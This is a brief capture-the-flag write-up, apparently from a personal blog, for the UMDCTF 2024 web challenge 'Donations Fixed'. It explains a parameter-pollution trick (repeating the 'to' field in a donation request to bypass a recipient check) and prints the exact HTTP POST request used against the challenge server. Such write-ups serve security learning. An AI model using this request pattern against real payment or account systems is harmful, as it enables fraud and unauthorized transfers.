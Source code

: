 ```yaml
---
title: "umdctf2024 - Donations Fixed"
date: 2024-04-28T19:18:00-03:00
draft: false
description: ""
tags: ["web", "ctf"]
---
```



This is the harder version of [donations](/writeups/umdctf-2024-donations-fixed), it's the same challenge, but you can't donate negative amounts this time.

After playing with it for a while, I realized that the solution was probably to find a way to donate money to your user, bypassing that Jeff Bezos check. So I tested adding more user id's in the `to` parameter and the money went to them.

So the solution was to create users, and donate all of their money to a user which will retrieve the flag.

```http
POST /api/donate HTTP/2
Host: donations2-api.challs.umdctf.io
Cookie: session=...
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

to=lisanalgaib&to=gbrls&currency=999
```
